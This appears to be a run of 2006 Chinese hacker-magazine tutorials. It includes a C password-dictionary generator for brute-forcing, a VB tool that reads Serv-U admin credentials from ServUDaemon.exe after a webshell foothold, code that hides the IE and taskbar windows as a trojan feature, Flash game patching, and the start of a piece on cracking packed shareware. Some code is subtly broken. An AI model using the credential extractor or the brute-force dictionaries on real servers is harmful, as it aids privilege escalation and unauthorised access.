听前辈们说以前玩入侵很惬意,拿起个扫描器对着几个网段哗哗一扫,系统的弱口令就哗哗地出来(现在就不行了)。但是,面对密码提示符,用字典破解仍不失为一个好方法。何况现在字典破解的方法更加发扬光大,已经运用到了SQL注入中!如扫描后台、数据库等。
字典破解的前提是要有字典,现在市场上的字典生成器很多,有没有想过自己写一款?不难,而且绝对不比市场上的字典软件逊色!

```
```c
if ( You->回答==是)
{ Come on! }
```
```

开发环境:Visual C 6.0 + Visual Assist X +Windows 2003
测试环境:鲜橙的Windows XP SP2。我的Windows 2003通过。
整个程序全是用API开发的,没有用任何类库,故代码可能比较长,我只选取关键部分讲解,并给出较全面的注释。其他的一些操作大家看看源码吧。实在不懂,请查MSDN或到黑防论坛问我。
首先要设计一些数据结构,以方便字典配置信息的储存和读取。我是这样设计的。如图2所示。
(我只画了一个具体的结构,其他的重复以"..."号代替),用C描述为:

```
```c
struct _SUB_ITEM
{
  char *elme;
  int elmeLen;
};

struct _PWD_ITEM
{
  _SUB_ITEM *lpItems;
  int dwItemsCounter;
};
```
```


我们的目标就是让这些字符串们能够不重复,不遗漏地组合在一起成为一个个密码,放入生成的字典。
好了,开始吧!我设置一个指向_PWD_ITEM的全局指针lpHead,用来访问整个表。相关全局变量和初始化如下:

```
```c
_PWD_ITEM *lpHead=NULL; // 表头
int dwPWDLen=0; // 记录密码段数
int iMaxPWDLen=0; // 记录最大密码长度
char szOutPath[MAX_PATH+16]={0};//储存输出路径
```
```

建表的操作是在人们输入密码段数后单击"OK"按钮完成的,代码如下:

```
```c
bool _OnButtonOKClick(HWND hwnd)
// 用户确定密码段
{
  char temp[64];
  int itemp=0,i=0;
  if ( dwPWDLen!=0) // 如果链不为空,Del整个链
  {
    _DeleteAllList();
  }
  memset(temp,'\0',sizeof(char)*64); // 初始化
  GetWindowText(GetDlgItem(hwnd,IDC_EDIT_PASSWORD),temp,64);// 取得密码段数
  itemp=atoi(temp);
  if (itemp<=0) // 如果段数<=零(或用户输入数据类型错误或者为零)
  {
    _Debug(hwnd,NULL);
    return false;
  }
  lpHead=new _PWD_ITEM[itemp]; // 新建一个表头
  if (lpHead==NULL) // 容错处理
  {
    _Debug(hwnd,NULL);
    return false;
  }
  memset(lpHead,'\0',sizeof(_PWD_ITEM)*itemp);
  SendMessage(GetDlgItem(hwnd,IDC_LIST_PWD),LB_RESETCONTENT,0,0);//清空密码段List
  for (i=0;i<itemp;i++) // 初始化密码段List
  {
    wsprintf(temp,"第%5d位  :未定义...  :0");
    SendMessage(GetDlgItem(hwnd,IDC_LIST_PWD),LB_INSERTSTRING,-1,(LPARAM)temp);
  }
  dwPWDLen=itemp; // 保存密码段长度
  return true;
}
```
```

这其实是建好了lpHead指向的_PWD_ITME线性表,表中各元素中的_SUB_ITEM指针还是NULL的。而只有_SUB_ITEM线性表中才有指向备选字符串的指针。所以我们应该根据用户需要补上它,这一操作通过用户单击"Save"按钮完成。这时,程序把存放备选字符串的列表


框中的项放到每个_PWD_ITME元素的_SUB_ITEM指针所指向的内存中储存。

```c
bool _OnButtonSaveClick(HWND hwnd)
// 编辑当前段完毕
{
    int i=0,elen=0;
    int iMaxElmeLen=0;// 保存本段最长备选字符串长度
    int sel=SendMessage(GetDlgItem(hwnd,IDC_LIST_PWD), LB_GETCURSEL,0,0);// 得到用户选择的段
    if (sel==-1)// 没有选
    {
        _Debugs(hwnd,"请先选中密码段");
        return FALSE;
    }
    int listcounter=SendMessage(GetDlgItem(hwnd, IDC_LIST_SUB),LB_GETCOUNT,0,0);//得到备选字符串列表框的项数
    if (listcounter==0)// 如果是空的
    {
        return FALSE;// 直接退出函数
    }
    char temp[256];
    _SUB_ITEM *lpSave=NULL;//lpSave 保存新子项指针
    *lptemp=NULL;//lptemp 保存原来的子项指针
    lpSave= new _SUB_ITEM[listcounter];
    if (NULL==lpSave)
    {
        _Debugs(hwnd,"分配内存失败");
        return false;
    }
    for (i=0;i<listcounter;i++)// 依次把备选字符串列表框的项加入所选段指向的_SUB_ITEM表
    {
        elen=SendMessage(GetDlgItem(hwnd,IDC_LIST_SUB), LB_GETTEXTLEN,i,0);//得到每项文本长度
        lpSave[i].elme =new char[elen+1];
        memset(lpSave[i].elme,'\0',elen+1);
        SendMessage(GetDlgItem(hwnd,IDC_LIST_SUB), LB_GETTEXT,i,(LPARAM)lpSave[i].elme);
        lpSave[i].elmeLen=elen;
        if (iMaxElmeLen<elen)
        {
            iMaxElmeLen+=elen;// 取每个段中最长的备选字符串长度,有用
        }
    }
    iMaxPWDLen+=iMaxElmeLen;//加到iMaxPWDLen中,最后得到最长密码长度
    lptemp=lpHead[sel].lpItems;// 把原来的子表的指针赋给lptemp,一会把它干掉
    lpHead[sel].lpItems=lpSave;// 新的子表接到主表上去
    lpHead[sel].dwItemsCounter=listcounter;

    wsprintf(temp,"第%5d位   ： 已定义……   ： %d",sel, lpHead[sel].dwItemsCounter);//UI控制,刷新分段列表框
    SendMessage(GetDlgItem(hwnd,IDC_LIST_PWD), LB_DELETESTRING,sel,0);
    SendMessage(GetDlgItem(hwnd,IDC_LIST_PWD), LB_INSERTSTRING,sel,(LPARAM)temp);

    delete lptemp;
    lptemp=NULL;
    lpSave=NULL;
    return true;
}
```

对于一些备选字符串,如数字,大小写字母,常用数据库地址等,为了使大家不必每次都一个个输入,程序应该准备一套默认的常用字符串集,以提高效率。
我准备了一下常用字符串集。实现代码请看源码文件。有的没有实现的（我懒……）,大家动手扩充一下吧。如图3所示。
要是你实在勤快不到喜欢每次使用都自己输入,好,在“自定义”栏一个个输入好了。如图4所示。


实现代码很简单,把编辑框中的文本加到下面的列表框就可以了。然后是得到输出路径,我就会API,没办法,只有充填一个OPENFILENAME结构了。一个“打开文件”对话框要用很长的代码(命苦啊),得到的路径放到szOutPath中,自己看源码吧。


一切就绪,之后就是Make字典了,快乐吧。

```c
bool _OnButtonMakeClick(HWND hwnd)
{
    UINT tid;
    _beginthreadex(NULL,NULL,(LPTHREADFUNC)_OnMakeProc,(LPVOID)hwnd,NULL,&tid);
    return false;
}
```

怎么这么简单?别急,先开个线程,这样可以避免在做大字典时假死。下面才是关键的线程函数,我进行字符串的组合时,为了达到不重不漏,使用了一种类似“多进制数”的进位。如,对于十进制数,是逢十进一;而我们的字典生成器是逢_SUB_ITME子段节点循环完毕就往上一个子段进一,自己重头循环。每次都是“最低位”的子段节点再增加1位。不说了,先看代码:

```c
DWORD WINAPI _OnMakeProc(LPVOID lpv)
{
    HWND hwnd=(HWND)lpv;
    char szMsg[512];
    FILE *fp=NULL;
    int *iTable=new int[dwPWDLen];
    if (NULL==iTable)
        return false;

    int i,k,j,iMaxPWD=1;
    for (j=0;j<dwPWDLen;j++)
    {
        iMaxPWD*=lpHead[j].dwItemsCounter;
        iTable[j]=0;
    }
    char *output=new char[iMaxPWDLen+64];
    memset(output,'\0',iMaxPWDLen+1);
    sprintf(szMsg," 共计密码%d个,约占用硬盘%dkb", iMaxPWD,(iMaxPWD*iMaxPWDLen)/1024);
    _Debugs(hwnd,"分配内存完毕...");
    fp=fopen(szOutPath,"w");
    if (NULL==fp)
    {
        _Debugs(hwnd,"文件打开失败!");
        return false;
    }
    sprintf(szMsg,"文件%s打开成功",szOutPath);
    _Debugs(hwnd,szMsg);
    _Debugs(hwnd,"开始生成....");
    for (i=0;i<iMaxPWD;i++)
    {
        iTable[dwPWDLen-1]++;
        for(k=dwPWDLen-1;k>=0;k--)
        {
            if (lpHead[k].dwItemsCounter<=iTable[k])
            // 可以进位了
            {
                if (0!=k)
                {
                    iTable[k-1]++;
                    iTable[k]=0;
                }
            }
        }
        memset(output,'\0',iMaxPWDLen+1);
        for(j=0;j<dwPWDLen;j++)
        // 把每次生成的密码送入文件
        {
            assert(j<dwPWDLen);
            strncat(output,lpHead[j].lpItems[iTable[j]].lpszItem,lpHead[j].lpItems[iTable[j]].chlen);
        }
        fprintf(fp,"%s\n",output);
        //sprintf(szMsg,"%d/%d",i,iMaxPWD);//不显示进度了，影响效率
        //SendMessage(hinfo, WM_SETTEXT,0,(LPARAM)szMsg);
    }
    delete output;
    output=NULL;
    delete iTable;
    iTable=NULL;
    _Debugs(hwnd,"释放内存完毕!");
    fclose(fp);
    _Debugs(hwnd,"关闭文件成功!全部密码生成完毕!");
    return 0;
}
```

好了,完成了,在此非常感谢鲜橙的机器为我做测试,感谢凯哥为我Debug。大家也快试试吧,完了看下生成的字典怎么样。如果你定义的字符长度不短,这个字典还是个大家伙哦!

### 编程实现Serv-U账号密码读取器

适合读者: 程序员,VB爱好者
前置知识: VB基础

文/图:JanL_G

Serv-U自暴出本地提权漏洞以来到现在都有一年多了,当中也经历了多个版本,相信大家已很熟悉了。这年头由于网管的BT设置,我们也很难顺利成功提权,好不容易遇到一台配置了Serv-U,WebShell又有运行权限的服务器,可Serv-U管理账号或密码被改了,我们只好把ServUDaemon.exe下载回来,用UltraEdit打开慢慢的找账号和密码了,多不方便啊!现在我们就自己动手写个读取Serv-U的本地管理账号和密码的程序,大家跟我一起来吧!

写程序前我们得先搞清楚它的工作原理,Serv-U的本地管理账号和密码是明文存放在ServUDaemon.exe里的,我们的程序主要打开ServUDaemon.exe在指定的偏移地址里读取出账号和密码就行了。写程序前我们先做个界面。如图1所示。我没什么艺术细胞请大家别介意。


在完成代码前我们先来收集下资料,就是得到管理账号和密码ServUDaemon.exe里的偏地址,还有版本标志(一会要用到的),我们先从网上下载个Serv-u并安装,我下载的是 5.0.0.9 版本的。我们用 UltraEdit 打开 ServUDaemon.exe 我在偏移地址为2824881 (10进制)的地方找到 5.0.0.9 ,我们在5字那里点一下。如图2 所示。

在最下面中间"位置"里的第一个逗号和第二个逗号之间的数字就是那个5的偏移地址。如图3所示。


我们把他记下来。


一会当版本标志用,我这里的偏移地址是2824881;我们再搜索LocalAdministrator。点一点那个"L"并把他的10进制偏移地址记下来。如图4,图5所示。

我这里 是2992147,我们用同样的方法把#l@$ak#.lk;0@P的也记下,偏移地址2998464。如图6 图7 所示。


# # PROGRAMMING ANALYSE

》栏目编辑：socket》socket@hacker.com.cn

好了，前期工作搞定了，我们来写程序吧。

```vb
Dim File As String 'servudaemon.exe 的所在路径
Dim servu(20) '定义一个数组来存放serv-u的参数
Dim suver As String
Dim vver '版本标志的偏移地址(10进制)
Dim suname '用户名偏移地址(10进制)
Dim supwd '密码偏移地址(10进制)
Dim vstr As Byte
Dim ustr As Byte
Dim pstr As Byte
Dim vstr2 As String
Dim pstr2 As String '最后得到的用户名
Dim ustr2 As String '最后得到的密码
Private Sub Form_Load()
' 所支持版本的信息，这里把我们刚才得到的信息串成
' 一个字符串，用“;;;”分别隔开要注意先后顺序，版本标志
' 字符串：::版本标志字符串的第一个字符的10进制偏移地
' 址;;;用户名第一个字符的10进制偏移地址;;;密码第一个字
' 符的10进制偏移地址
servu(0) = "5.0.0.9::2824881::2992147::2998464"
' 所支持版本的信息，这个是5.2.0.1版的，大家按照上
' 面的操作有兴趣的话，把所有的版本都添加进去吧。呵呵。
' 我们没有这个耐性。:)
servu(1) = "5.2.0.1::2856596::2990235::2997363"
' 得到所在目录的绝对路径
Apppath = IIf(Right(App.Path, 1) = "\", Left(App.Path,
Len(App.Path) - 1), App.Path)
'servudaemon.exe 的路径
File1 = Apppath & "\" & "ServUDaemon.exe"
'判断servudaemon.exe是否存在
If LCase(Dir(File1)) = "servudaemon.exe" Then
'遍历servu数组
For Each su In servu
'为ssu设的错误，如果su为空的话分割赋值给ssu是
'会出错
If su = "" Then
MsgBox "本软件不支持该版本的Serv-U！", "警告！"
Exit Sub
End If
'以“;;;”为分割符号分割su
ssu = Split(su, ";;;")
'把版本标志赋值给suver
suver = ssu(0)
'版本标志的偏移地址(10进制)
vver = Int(ssu(1))
'用户名偏移地址(10进制)
suname = Int(ssu(2))
'密码偏移地址(10进制)
supwd = Int(ssu(3))
'以二进制方式打开ServUDaemon.exe
Open File1 For Binary As #2
vstr2 = ""
'读取版本标志，一个一个字符的读取，然后把他们串起来
For i = 1 To Len(suver)
vver = vver + 1
Get #2, "&H" & Hex(vver), vstr
'因为读取出来的 vstr 是一个10进制的ascii，所以要
'用chr函数把他转成字符
vstr2 = vstr2 & Chr(vstr)
Next i
'判断版本标志是否与suver相同，如果是就读取账号和密码
If suver = vstr2 Then
ustr2 = ""
pstr2 = ""
'读取账号，一个一个字符的读取，然后把他们串起来
For i = 1 To 18
suname = suname + 1
Get #2, "&H" & Hex(suname), ustr
'因为读取出来的 ustr 是一个10进制的ascii，所
'以要用chr函数把他转成字符
ustr2 = ustr2 & Chr(ustr)
Next i
'读取密码，一个一个字符的读取，然后把他们串起来
For i = 1 To 14
supwd = supwd + 1
Get #2, "&H" & Hex(supwd), pstr
'因为读取出来的 pstr 是一个10进制的ascii，
'所以要用chr函数把他转成字符
pstr2 = pstr2 & Chr(pstr)
Next
Text1.Text = ustr2
Text2.Text = pstr2
'关闭文件然后退出程序
Close #2
Exit Sub
End If
Close #2
Next
Else
MsgBox "找不到ServUDaemon.exe文件！", "警告！"
Exit Sub
End If
End Sub
```

只要把ServUDaemon.exe和程序放在同一个目录里运行程序就可以了。现在我只添加了Serv-U 5.0.0.9 和 5.2.0.1 版本，暂时只对这两个版本有效，其他的就靠读者们自己加进去吧！如果有问题可以到黑防讨论，期待共同进步。

Socket：在Windows编程中，有个很重要的东西叫“消息”。程序和程序之间通过消息来传递要做的什么事情，完成用户所要求的任务。不少WIN32编程的初学者遇到这个东西时都会茫然，不看看完本文后我想你应该会对Windows编程有个大概的了解了，希望大家都能愉快地入门。

适合读者：程序员，黑客爱好者        前置知识 C/C++基础

# # 猫和老鼠的游戏
——利用“消息”隐藏窗口

文/图 文思乐

现在很多的木马程序都有隐藏任务栏、IE之类的功能。今天我们就来实现这样的功能。这用到了Windows的消息机制。先简单看看“消息”。

系统发送消息给窗口过程并传递4个参数，Windows句柄，消息标识符，两个消息参数。系统使用窗体句柄来决定那个窗口过程来接受消息。消息标识符以常量命名指出消息的含义。当窗口过程接收到消息，使用消息标识符决定如何处理消息。例如，M_PAINT告诉窗口过程窗体客户区被改变了需要重绘。消息参数指定被窗口过程使用的数据和数据的位置。其含义和值取决于消息类型。消息参数


www.hacker.com.cn
2006 精华奉献本 下册


可以包含一个整数，标志位，一个指针等。当消息不使用消息参数时，他们被设置为NULL。一个Windows窗口过程必须根据消息标识符来决定如何解释消息参数。

### Message Routing

系统有两个方法将消息传递到窗口过程。Post一个消息到先进先出的消息队列。系统定义的临时内存对象和直接send消息到窗口过程。被发送到消息队列的消息称做入队消息，主要是由鼠标键盘输入，例如"WM_MOUSEMOVE, WM_LBUTTONDOWN, WM_KEYDOWN, and WM_CHAR messages"。还包括定时器，刷新，退出WM_TIMER, WM_PAINT, and WM_QUIT。其他直接发送到窗口过程的消息被称为非入队消息。

### Queued Messages

系统可以同一时间显示任何数量的窗体。为了传递鼠标键盘消息到合适的窗口,系统使用消息队列。系统维护一个系统消息队列和每一个GUI线程的消息队列,为避免给non-GUI线程创建消息队列,所有线程产生时并没有消息队列。仅当线程第一次调用GDI函数时,系统给线程创建一个消息队列。只要用户移动鼠标,点击鼠标,敲键,驱动程序将其转换为消息将他们放在系统消息队列中。系统将他们从系统消息队列中移走,检查他们的目标窗口;然后将他们发送到创建的属于目标窗口的线程的消息队列。线程消息队列接收由这个线程创建的所有窗口的鼠标键盘消息。线程删除消息系统调用窗口过程进行处理。

WM_PAINT是一个例外,系统总是将消息Post在消息队列的末尾。这样保证窗口以先进先出的顺序接受消息。然而,仅当没有其他消息时WM_PAINT才被传递到窗口过程。同一个窗口的多个WM_PAINT被合并成一个WM_PAINT消息,合并所有的无效区域到一个无效区域。合并WM_PAIN减少了刷新窗口的次数。

系统通过填充MSG结构并将它复制到消息队列来发送消息到线程队列。MSG结构包括窗口句柄和消息标识符两个消息参数。线程可以使用WaitMessage将控制交给其他线程,当消息队列中没有其他的消息队列时,这个函数挂起线程,并不返回,直到新的消息放置于消息队列中。

### Nonqueued Messages

非入队消息即直接发送到窗口过程的消息,绕过系统队列和线程消息队列。系统发送非入队消息通知一个窗口事件,例如,当用户激活一个新的应用程序窗口,系统发送WM_ACTIVATE, WM_SETFOCUS, and WM_SETCURSOR。这些消息通知窗口它被激活了,键盘输入被直接传递到窗口,鼠标在当前窗口内移动。非入队消息也可以由当应用程序调用系统函数产生。例如,当程序调用SetWindowPos系统发送WM_WINDOWPOSCHANGED消息。一些函数也发送非入队消息,如BroadcastSystemMessage, BroadcastSystemMessageEx, SendMessage, SendMessageTimeout, and SendNotifyMessage。

### Posting Messages

应用程序post消息通知指定窗体执行任务。PostMessage可以创建MSG结构并将它Copy到消息队列。消息循环最终捕获消息并分发到合适的窗口过程。给PostMessage传递一个NULL句柄不指定哪一个窗口,这个消息就被发送到当前线程消息队列,应用程序必须在消息处理中处理这个消息。这是为整个应用程序发送消息的一个方法。偶尔你可以使用HWND_TOPMOST这个参数作为句柄参数向所有的top-level窗口发送消息。当消息队列满的时候PostMessage并不发送消息,应用程序需要检查PostMessage函数的返回值来确定消息是否被发送,或者没有,需要重发。

### Sending Messages

通过Send消息来通知窗口过程立即执行任务。SendMessage将消息发送给指定窗口的窗口过程。函数将等待窗口过程处理完才返回一个消息结果。父窗口和子窗口通常使用Send消息来互相通信。例如,一个父窗口拥有以一个文本框作为它的子窗口,它可以通过发送消息到子窗口来给文本框设置文字。子窗口也可将文字被用户改变的消息发送给父窗口,大家对消息应该有一个基本的认识了吧,那好,下面我们来看看我们今天主要用到的函数要。

FindWindowEx函数的作用是在窗口列表中寻找与指定条件相符的第一个子窗口,它返回的值是找到的窗口的句柄,其中各个参数的意义如下所示

| 参数 | 意义 |
| --- | --- |
| HWND hwndParent | 查找子窗口的父窗口。如设为NULL,表示桌面窗口(一般认为是顶级父窗口)在WINDOWS2000,XP中,假如hwndParent是HWND_MESSAGE,将搜索所有的message-only窗口。 |
| HWND hwndChildAfter | 查找子窗口。如设为NULL,将从第一个子窗口开始。假如hwndParent, hwndChildAfter都设置为NULL,那么将搜索所有的top-level and message-only 窗口。 |
| LPCTSTR lpszClass | 窗口的类名。 |
| LPCTSTR lpszWindow | 窗口的标题。 |
| 返回值 | 找到的窗口的句柄。如未找到相符窗口,则返回零。 |

SendMessage函数用于向某一窗口发送消息,它的各个参数的意义如下

| 参数 | 意义 |
| --- | --- |
| hwnd | Long, 要接收消息的那个窗口的句柄。 |
| wMsg | Long, 消息的标识符,改变工具栏样式的标识为TB_SETSTYLE,它的值为&H400 + 56。 |
| wParam | Long, 具体取决于消息。 |
| lParam | String, 与消息有关,平面工具栏是TBSTYLE_FLAT,它的值是&H800。 |
| 返回值 | Long, 找到的窗口的句柄。如未找到相符窗口,则返回零。 |

下面开始写程序,建立一个对话框程序,如图1所示。在Dlg.h中添加全局句柄变量

```
HWND hwndie,hwndie2,hwndie3,hwndie4,hwndie5,
hwndie6;
//IE的句柄
HWND hwndtask,hwndtask2,hwndtask3,hwndtask4;
//任务栏的句柄
在Dlg.cpp中添加两个成员函数
init();
{

```

### 编程赏析 PROGRAMMING ANALYSE

> 栏目编辑 ) socket ) socket@hacker.com.cn

```
// 成员函数实现取得句柄的初始化
hwdnie::FindWindow(_T("IEFrame"),NULL);
if(hwdnie)
{
hwndie2::FindWindowEx(hwndie,NULL,_T("WorkerW"),NULL);
hwndie3::FindWindowEx(hwndie2,NULL,_T("ReBarWindow32"),NULL);
hwndie4::FindWindowEx(hwndie3,NULL,_T("ComboBoxEx32"),NULL);
hwndie5::FindWindowEx(hwndie4,NULL,_T("ComboBox"),NULL);
hwndie6::FindWindowEx(hwndie5,NULL,_T("Edit"),NULL);
}
else
AfxMessageBox("请先打开 IE，再运行这个程序。谢谢!",MB_ICONINFORMATION);
```

如果想知道为什么要这样取得，那拿起前面文章中介绍的Spy4Win去IE那看，如图1，2，3所示。


从系统功能角度而言，整个任务栏包括几个不同的子区域，从左至右依次是开始按钮、应用程序切换区（Application Switch Bar）、任务栏通知区（Notification Area）以及任务栏时钟。与其它Windows应用程序相同，任务栏程序（systray.exe）由几个不同的窗体组成，这些窗体是具有各自的窗口类名、显示方式等信息。因此，只要得到有关窗口信息，即可通过编程全面控制Windows任务栏的不同区域。


```
void CIEDlg::init_task()
{
// 取得任务栏句柄的初始化。
hwndtask::FindWindowEx(NULL,NULL,_T("Shell_TrayWnd"),NULL);
// 还记得桌面的父窗口怎么去表示吗？NULL。
if (hwndtask)
{
hwndtask2::FindWindowEx(hwndtask,NULL,_T("Button"),NULL);
hwndtask3::FindWindowEx(hwndtask,NULL,_T("ReBarWindow32"),NULL);
}
}
// 为“IE 地址”按钮添加响应函数：
void CIEDlg::OnOK()
{
// TODO: Add extra validation here
init();
if(hwndie&&hwndie3)
{
char sz[255];
::SendMessage(hwndie6,WM_GETTEXT,255,(LPARAM)sz);
AfxMessageBox(sz);
}
if (hwndie&&!hwndie3)
AfxMessageBox("IE中已经没有地址栏了。是不是你已经删除了？ ",MB_ICONQUESTION);
// 为“关闭IE”按钮添加函数：
void CIEDlg::Onshut()
{
// TODO: Add your control notification handler code here
init();
// 发送 WM_CLOSE 到 hwnd，即 IEFrame 关闭 IE!
if (hwndie)
{
::PostMessage(hwndie,WM_CLOSE,NULL,NULL);
AfxMessageBox("IE 已经关闭，他现在回家睡觉了！ ",MB_ICONINFORMATION);
}
}
```

其他的IE按钮请看原代码，其实也一样，没什么好看的。为隐藏任务栏添加函数：

```
void CIEDlg::OnBhide_Start()
{
// TODO: Add your control notification handler code here
init_task();
::ShowWindow (hwndtask,SW_HIDE);
GetDlgItem(IDC_BUTTON2)->EnableWindow(false);
GetDlgItem(IDC_BUTTON6)->EnableWindow(true);
}
```

隐藏任务栏函数只需要把S W _ H I D E 修改为SW_SHOW就可以了。具体请看源代码。最后编译，运行看看，是不是得到自己想要效果了。
本人是一只如假包换的菜鸟，所以程序写得很菜，请大家不要见笑。如果有机会来都江堰，我给你做义务的导游。

www.hacker.com.cn

2006 精华奉献本 下册

lcefire：这段时间忙里偷闲，在网上Down了几个Flash游戏来玩，想不到有些游戏难度有点大，但我又不想花太多时间来冲关，自然就要请出游戏修改工具。金山游侠、但像游侠这类工具并不能对Flash游戏进行修改，后来拿出系统调试器Softlce，跟了一会弄得我头晕眼花，竟然找不到任何有价值的东西。其实我的要求并不高，为什么那么难搞？后来查了网上的一些资料，并看到网上有很多人问修改Flash游戏的问题，再和几个喜欢破解的朋友一起切磋，所以就产生了此文。本文将由浅入深地系统介绍Flash游戏的反汇编及修改等问题，以解众惑。
读者：Game爱好者、Flash爱好者、Crack爱好者
前置知识：无


Flash是Macromedia公司开发的矢量图形动画编辑工具。Flash的优点是它独立于浏览器之外，只要给浏览器加入相应的插件就可以观看Flash动画，占用带宽小，比标准的GIFs和JPEGs更灵活，体积更小，且Flash播放时还可以带声音，所以Flash非常适合用于网页上表现多媒体的内容。Flash内含了ActionScript技术，可以让程序员应用其编辑动画的脚本，从Flash 5.0开始程序和动画的技术结合正式应用到了Flash编辑的网络动画中，ActionScript脚本的简单易学和易用性使初级爱好者也能快速地掌握其应用法则，创作出简单的带有程序的动画。Flash游戏正是利用Flash的交互性及ActionScript脚本控制来制作的。而今天我们的目标，就是来破解这样的Flash，也算是挑战一下破解技术中的难题吧！

Flash预览或脚本浏览区，右边是Flash资源列表框，其中脚本就在里面。这个工具最实用的是脚本反编译，可以把脚本译成ActionScript的格式，非常方便阅读，或者译成P-code的格式，这个格式是Flash由ActionScript脚本生成的中间代码，P-code可以由播放器直接解释执行。另外，Sothink SWF Decompiler MX2005还可以把SWF格式的文件转译成Fla格式的文件，这样在Flash MX编辑器中就可以直接打开Fla文件进行修改了。
另一个工具是Flism，就是Flism asm的简称，这个工具运行在DOS命令提示符下，它可以把Flash文件中的脚本反编译出来，形成一个脚本文件，也可以把修改后的脚本文件编译进Flash文件，后面的实例我们就是使用这种方法的。

#### 工具介绍

工具：Sothink SWF Decompiler MX2005、Flism V1.52、Hex workshop十六进制工具。
对象：魔塔Flash游戏。
古语曰：“工欲善其事，必先利其器”（lcefire：好象每篇文章开头都是用的这句话？），在对Flash游戏修改前，必须找几个好工具。我们知道Flash游戏是利用脚本来控制的，这些脚本有点像VB程序，由Flash播放器边解释边执行的，所以用普通的调试器如Softlce来跟踪会跟不到核心内容，必须找到相应的反编译工具。本文介绍两个Flash反编译工具，一个是Sothink SWF Decompiler MX2005，界面如图1所示。左边是文件列表，中间是


#### Flash游戏修改思路

普通单机游戏程序一般是VC编译生成的PE格式程序，这些代码可以在内存中直接执行，生命值等数据可以直接放到内存中，而Flash游戏程序是由一些中间代码来组成，在Flash播放器里执行的，生命值等只会在播放器中出现，所以不要直接搜索内存，也不要偿试制作内存补丁什么的。我这里采用的方法是用Flash反编译工具，由于生命值及程序流程等内容都会在脚本中出现，所以只要对脚本进行修改，再将修改后的脚本编译进Flash程序中就可以达到修改Flash游戏的目的。
可能有人会问，为什么不用调试器，如Ollydbg、softice等来跟踪、定位要修改的数据？用过Ollydbg跟踪过VB的P-code格式程序的读者可能对这个印象较深，用调试器跟入那些中间代码，往往只会在播放器的代码中转来转去，而并没有跟入我们的Flash游戏代码中间。所以目前比较简便的方法就是修改Flash的脚本来达到修改游戏的目的。

#### 实例修改Flash游戏：魔塔

这次出场的主角是经典RPG游戏——魔塔，它是类似迷宫式的游戏。我们现在要来修改两处：一是把全屏显示改成窗口显示，另外一处是修改生命值及攻击防御力。

栏目编辑：icefire) icefire@hacker.com.cn

首先用Sothink SWF Decompiler MX2005载入mota.swf程序，展开右边栏的资源框，找到Action / MainMovie，如图2所示。


在中间会显示相应的脚本，这些脚本可以选择菜单Code项查看ActionScript或P-code或原始数据。ActionScript简单易懂，我们来看看关键的地方。

fscommand("fullscreen", "true");这一句是设置全屏，只要修改为False就可以设成窗口方式了。再往后看看其它脚本语句，看看有什么感兴趣的，大约在352行，发现存在如下语句：

```
Now_life = 1;
Now_hp = 1000;
Now_gong = 10;
Now_fang = 10;
Now_money = 0;
```

这些就是主角的数据了，如Now_hp表示主角现在的生命，Now_gong为攻击力，Now_fang为防御力。由于后面我们的Flasm只能对Flash反编译成P-code的代码，所以可以现在来看看上面这些脚本的P-code格式的代码

```
_push "Now_life" 1
_setVariable
_push "Now_hp" 1000
_setVariable
_push "Now_gong" 10
_setVariable
_push "Now_fang" 10
```

这和上面的代码是等价的。有了这些信息，现在要用Flasm来进行修改mota.swf文件了。假设Flasm.exe在c:\flasm15win，为了方便，把mota.swf文件也拷贝到Flasm15win下。打开命令提示符，进入Flasm.exe所在的目录，由于这个mota.swf经过压缩，现在我们来解压，如图3所示。


再执行反编译到mota.flm文件，如图4所示。没有错误提示，表示我们反编译成功。


这样在C:\flasm15win文件夹下会生成mota.flm脚本文件,现在我们用记事本来打开它，查找Fullscreen字符串，只找到一个，把它后面的True改成False，游戏刚开始时生命是1000，所以查找字符串：1000，定位下面语句：

```
push 'Now_life', 1
setVariable
push 'Now_hp', 1000.
setVariable
push 'Now_gong', 10
setVariable
push 'Now_fang', 10
```

这里就是设置主角初始值的地方(和Sothink SWF Decompiler MX2005反编译的内容有点区别,不过内容一样)。现在我们把1000改成50000,10改成500,然后保存文件。切换到命令提示符下,输入“flasm -a mota.flm”,把修改后的脚本编译进mota.swf文件,但会出现如图5所示的错误,大概意思是第一行包括非法字符。


我们用Hex workshop打开mota.flm文件，看看第一行处的内容，这里为图6所示的内容，可以看到EFBBBF为非法内容，把它删除，再保存文件（如图6所示）。


> Icefire：记事本修改就是这样，为了保险起见，建议在Hex workshop中进行修改。

再执行“flasm -a mota.flm”，这次出现了成功的提示，如图7所示。


至此我们的修改工作结束。现在运行一下程序，进入打斗时，是不是Flash游戏的主角的生命已经变成了50000了？

其实Flash的游戏修改并不难，关键是以前其他修改游戏的定势思维的影响，使人觉得很难修改Flash游戏，其实有时换一个角度来解决问题可以很快解决一些“难题”。


栏目编辑 <icefire> icefire@hacker.com.cn

Icefire：时下发布的软件绝大多数都被加壳，其目的一半是为了保护作者的劳动成果、权益不受侵害，一半是为了减少电脑资源的占用、便于网络传输与交流。如果出于某种需要，要想修改软件的功能，在不脱壳的情况下是不太方便的，尤其是一些具有时间限制的共享软件，如果你没有注册，时间一到，软件就无法使用。这时你若想继续使用，就只能破解了。而脱壳后的文件体积经常增大许多，占着过多的位置让人心中不爽。那么，不脱壳就拿它没辙？非也。通过分析与研究，我认为，凡是有允许与禁止功能的地方都是可以通过体外手术（壳外补丁）进行控制的，甚至你可以在不改动原软件任何地方来实现自己的某些愿望（有点像外挂），如显示个提示框什么的。只要你添加的代码不多、原软件剩余空间足够（一般都有空余位置），补丁后软件大小也不会改变。如果添加的代码较多，可考虑适当增肥。

适合读者：破解爱好者
前置知识：汇编代码基本阅读能力

### 不脱壳直接破解软件

文/图 laoxuetong[NukeGroup]

要实现带壳软件直接打补丁，需要一些技巧和运气，虽然这看起来是很难容易实现的，其实并不像大家想的那么难，下面听我慢慢道来。

要实现这种带壳补丁的目的，当然你需要作充分的前提条件。

- 过硬的软件跟踪与分析能力，因为你没有软件作者的源码，一切都要靠自己动手。
- 简单代码编写能力，当然是汇编代码，可以借调试软件帮忙。
- 必备工具：PEiD、OllyDbg、W32Dasm、文本编辑器（WinHex或UltraEdit或其它）、文件增肥工具（如ZeroAdd）等。
- 任一编程平台，编写补丁程序用（与使用汉化补丁类似）。
- 最简单的加、减法运算（Icefire：这也算一条？）。

